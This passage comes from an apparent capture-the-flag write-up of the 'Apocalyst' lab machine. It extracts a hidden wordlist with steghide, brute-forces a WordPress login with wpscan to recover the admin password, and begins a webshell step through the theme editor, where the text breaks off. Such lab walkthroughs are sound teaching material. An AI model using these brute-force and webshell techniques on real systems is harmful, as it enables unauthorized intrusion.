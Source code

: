 The image looks the same, but it’s actually a slightly different size, and now there’s a comment hinting that I should look at it:

![image-20210205143104818](https://0xdfimages.gitlab.io/img/image-20210205143104818.png)

I’ll save it and run `steghide` on it, giving an empty password, and it extracts a file that looks like another word list:

```

oxdf@parrot$ steghide extract -sf image.jpeg 
Enter passphrase: 
wrote extracted data to "list
oxdf@parrot$ cat list.txt 
World
song
from
disambiguation
Wikipedia
album
page
this
world
Edit
...[snip]...

```

#### Bruteforce Password

With this wordlist, I can check to see if any are the password for the user I identified, falaraki. I could use `hydra`, but `wpscan` has a brute forcer made to work on WP, so I’ll give that a run:

```

oxdf@parrot$ wpscan --url http://apocalyst.htb --passwords list.txt --usernames falaraki
...[snip]...
[!] Valid Combinations Found:
 | Username: falaraki, Password: Transclisiation
...[snip]...

```

Visiting `/wp-admin`, those creds work and lead to the admin dashboard:

![image-20210205143308693](https://0xdfimages.gitlab.io/img/image-20210205143308693.png)

## Shell as www-data

### Webshell

With admin access to WP, there are many ways to get execution. The first I usually try is to edit a theme page, by going to Appearance –> Editor:
